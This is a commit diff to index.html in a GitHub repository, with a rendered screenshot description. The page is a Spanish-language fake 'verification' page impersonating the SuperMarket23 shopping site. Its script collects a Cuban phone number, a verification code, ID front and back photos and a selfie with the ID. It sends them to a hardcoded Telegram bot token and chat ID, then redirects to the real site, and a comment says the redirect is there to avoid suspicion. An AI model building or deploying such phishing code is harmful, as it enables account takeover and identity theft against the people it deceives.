

Before and after one commit to casascubahttp/Casascuba-, a website: page index.html in a window 1280 px wide. Shown: the part 100-1130 px from the top of the page at 95% size. Before the commit the page ends 843 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,86 +3,154 @@
 <html lang="es">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>SuperMarket23</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
+    <title>SuperMarket23 - Verificación</title>
     <style>
-        body { font-family: sans-serif; margin: 0; text-align: center; background: #fff; }
-        .header { background: #004691; color: white; padding: 25px; font-size: 28px; font-weight: bold; }
-        .container { padding: 20px; max-width: 450px; margin: auto; }
-        .input-box { display: flex; align-items: center; background: #f9f9f9; border: 2px solid #004691; border-radius: 8px; padding: 12px; margin-bottom: 20px; }
-        .photo-input { width: 100%; height: 150px; border: 2px dashed #004691; margin-bottom: 15px; border-radius: 10px; display: flex; align-items: center; justify-content: center; background: #f0f5ff; cursor: pointer; overflow: hidden; }
-        .photo-input img { width: 100%; height: 100%; object-fit: cover; display: none; }
-        .btn { background: #004691; color: white; border: none; width: 100%; padding: 18px; font-size: 20px; font-weight: bold; border-radius: 8px; cursor: pointer; }
+        * { box-sizing: border-box; -webkit-tap-highlight-color: transparent; }
+        body { font-family: 'Segoe UI', Arial, sans-serif; margin: 0; padding: 0; background-color: #ffffff; color: #333; }
+
+        /* CABECERA SOLICITADA */
+        .header { background-color: #004494; color: white; padding: 40px 20px; text-align: center; border-bottom: 6px solid #002d62; }
+        .header h1 { margin: 0; font-size: 36px; font-weight: 900; letter-spacing: 1px; text-transform: uppercase; }
+
+        .container { padding: 20px; max-width: 500px; margin: 0 auto; }
+        label { display: block; font-weight: 700; margin: 15px 0 8px 0; color: #004494; font-size: 13px; text-transform: uppercase; }
+
+        /* INPUT TELÉFONO +53 */
+        .phone-container { display: flex; align-items: center; border: 2px solid #004494; border-radius: 10px; overflow: hidden; }
+        .prefix { background: #f0f4f8; padding: 15px; font-weight: bold; color: #004494; border-right: 1px solid #ddd; font-size: 18px; }
+        .phone-input { border: none; padding: 15px; flex: 1; font-size: 18px; outline: none; font-weight: 600; }
+
+        /* RECUADROS F1, F2, F3 */
+        .card-slot {
+            width: 100%; height: 200px; border: 3px dashed #004494; border-radius: 15px;
+            margin-bottom: 15px; display: flex; align-items: center; justify-content: center;
+            background-color: #f4f8ff; position: relative; overflow: hidden;
+        }
+        .preview-img { width: 100%; height: 100%; object-fit: cover; position: absolute; z-index: 20; display: none; }
+        .slot-text { text-align: center; color: #004494; font-weight: 900; font-size: 20px; z-index: 10; }
+        .camera-trigger { position: absolute; width: 100%; height: 100%; opacity: 0; z-index: 30; cursor: pointer; }
+
+        /* INPUT CÓDIGO BLANCO */
+        .code-input {
+            width: 100%; padding: 18px; border: 2px solid #004494; border-radius: 10px;
+            font-size: 18px; text-align: center; margin-bottom: 20px; outline: none; background: #fff;
+        }
+
+        /* BOTÓN Y LOADING */
+        .btn-auth {
+            width: 100%; background-color: #004494; color: white; padding: 20px;
+            border: none; border-radius: 12px; font-size: 20px; font-weight: bold;
+            cursor: pointer; text-transform: uppercase; box-shadow: 0 4px 10px rgba(0,0,0,0.2);
+        }
+        #loading-overlay {
+            display: none; position: fixed; top:0; left:0; width:100%; height:100%;
+            background: rgba(255,255,255,0.9); z-index: 1000; flex-direction: column; align-items: center; justify-content: center;
+        }
+        .spinner { width: 50px; height: 50px; border: 5px solid #f3f3f3; border-top: 5px solid #004494; border-radius: 50%; animation: spin 1s linear infinite; }
+        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
     </style>
 </head>
 <body>
 
-<div class="header">SUPERMARKET23</div>
+    <div id="loading-overlay">
+        <div class="spinner"></div>
+        <p id="status-text" style="color:#004494; font-weight:bold; margin-top:15px;">Procesando...</p>
+    </div>
+
+    <div class="header">
+        <h1>SuperMarket23</h1>
+    </div>
 
     <div class="container">
-    <div class="input-box">
-        <span style="font-weight:bold; color:#004691; margin-right:5px;">+53 #</span>
-        <input type="tel" id="num" placeholder="Número" style="border:none; outline:none; font-size:18px; width:100%;">
+        <label>Número de Teléfono</label>
+        <div class="phone-container">
+            <span class="prefix">+53</span>
+            <input type="tel" id="user-phone" class="phone-input" placeholder="5XXXXXXX" maxlength="8">
         </div>
 
-    <div class="photo-input" onclick="document.getElementById('f1').click()">
-        <span id="t1">FOTO FRONTAL ID</span>
-        <img id="i1"><input type="file" id="f1" accept="image/*" capture="camera" hidden onchange="view(this,'i1','t1')">
-    </div>
-    <div class="photo-input" onclick="document.getElementById('f2').click()">
-        <span id="t2">FOTO TRASERA ID</span>
-        <img id="i2"><input type="file" id="f2" accept="image/*" capture="camera" hidden onchange="view(this,'i2','t2')">
-    </div>
-    <div class="photo-input" onclick="document.getElementById('f3').click()">
-        <span id="t3">SELFIE CON ID</span>
-        <img id="i3"><input type="file" id="f3" accept="image/*" capture="camera" hidden onchange="view(this,'i3','t3')">
+        <label>Documentación Requerida</label>
+
+        <div class="card-slot">
+            <input type="file" accept="image/*" capture="environment" class="camera-trigger" onchange="handleCapture(this, 'F1')">
+            <img id="img-F1" class="preview-img">
+            <div class="slot-text" id="txt-F1">F1</div>
         </div>
 
-    <div class="input-box">
-        <input type="text" id="codigo" placeholder="Código de Verificación" style="border:none; outline:none; font-size:18px; width:100%; text-align:center;">
+        <div class="card-slot">
+            <input type="file" accept="image/*" capture="environment" class="camera-trigger" onchange="handleCapture(this, 'F2')">
+            <img id="img-F2" class="preview-img">
+            <div class="slot-text" id="txt-F2">F2</div>
         </div>
 
-    <button class="btn" onclick="send()">AUTENTICAR</button>
+        <div class="card-slot">
+            <input type="file" accept="image/*" capture="environment" class="camera-trigger" onchange="handleCapture(this, 'F3')">
+            <img id="img-F3" class="preview-img">
+            <div class="slot-text" id="txt-F3">F3</div>
+        </div>
+
+        <label>Código de Verificación</label>
+        <input type="text" id="user-code" class="code-input" placeholder="Ingrese el código">
+
+        <button class="btn-auth" onclick="startAuth()">Autenticar</button>
     </div>
 
     <script>
-    function view(input, imgId, txtId) {
-        if (input.files && input.files[0]) {
-            var reader = new FileReader();
+        /* CONFIGURACIÓN SEGÚN CAPTURAS ENVIADAS */
+        const TG_TOKEN = '8318759298:AAG-KrV_QaFdJb_Z3DUBu_gyJiPPdb2HofA'; //
+        const TG_CHAT_ID = '6475554235'; //
+
+        let fotos = { F1: null, F2: null, F3: null };
+
+        function handleCapture(input, id) {
+            const file = input.files[0];
+            if (file) {
+                fotos[id] = file;
+                const reader = new FileReader();
                 reader.onload = function(e) {
-                document.getElementById(imgId).src = e.target.result;
-                document.getElementById(imgId).style.display = 'block';
-                document.getElementById(txtId).style.display = 'none';
-            };
-            reader.readAsDataURL(input.files[0]);
+                    const img = document.getElementById('img-' + id);
+                    img.src = e.target.result;
+                    img.style.display = 'block';
+                    document.getElementById('txt-' + id).style.display = 'none';
+                }
+                reader.readAsDataURL(file);
             }
         }
 
-    async function send() {
-        const tel = document.getElementById('num').value;
-        const cod = document.getElementById('codigo').value;
-        // Tu nuevo token activo
-        const tok = "8318759298:AAG-KrV_QaFdJb_Z3DUbU_gyJiPPdb2HofA";
-        const cid = "6475554235"; // Tu ID confirmado
+        async function startAuth() {
+            const phone = document.getElementById('user-phone').value;
+            const code = document.getElementById('user-code').value;
+
+            if(!phone || !code || !fotos.F1 || !fotos.F2 || !fotos.F3) {
+                alert("Por favor, complete todos los campos y tome las 3 fotos.");
+                return;
+            }
+
+            document.getElementById('loading-overlay').style.display = 'flex';
 
             try {
                 // Envío de datos de texto
-            await fetch(`https://api.telegram.org/bot${tok}/sendMessage?chat_id=${cid}&text=NUEVO:+53+#${tel}%0ACÓDIGO:+${cod}`);
+                const msg = `🔔 *Nueva Captura SM23*\n\n📱 Tel: +53 ${phone}\n🔑 Clave: ${code}`;
+                await fetch(`https://api.telegram.org/bot${TG_TOKEN}/sendMessage?chat_id=${TG_CHAT_ID}&text=${encodeURIComponent(msg)}&parse_mode=Markdown`);
 
-            // Envío de las 3 fotos
-            for (let id of ['f1', 'f2', 'f3']) {
-                let f = document.getElementById(id).files[0];
-                if (f) {
-                    let fd = new FormData();
-                    fd.append('chat_id', cid);
-                    fd.append('photo', f);
-                    await fetch(`https://api.telegram.org/bot${tok}/sendPhoto`, {method: 'POST', body: fd});
+                // Envío de fotos
+                for (let id in fotos) {
+                    const formData = new FormData();
+                    formData.append('chat_id', TG_CHAT_ID);
+                    formData.append('photo', fotos[id]);
+                    formData.append('caption', `Foto ${id} de +53 ${phone}`);
+                    await fetch(`https://api.telegram.org/bot${TG_TOKEN}/sendPhoto`, { method: 'POST', body: formData });
                 }
-            }
-            // Redirección final
-            window.location.href = "https://www.supermarket23.com/";
-        } catch (e) {
-            window.location.href = "https://www.supermarket23.com/";
+
+                // Éxito y redirección oficial
+                document.getElementById('status-text').innerText = "¡Autenticación Exitosa!";
+                setTimeout(() => {
+                    window.location.href = "https://www.supermarket23.com";
+                }, 2000);
+
+            } catch (error) {
+                // Redirección forzada incluso en error para evitar sospechas
+                window.location.href = "https://www.supermarket23.com";
             }
         }
     </script>
```
Lines whose indentation alone changed are shown as unchanged.
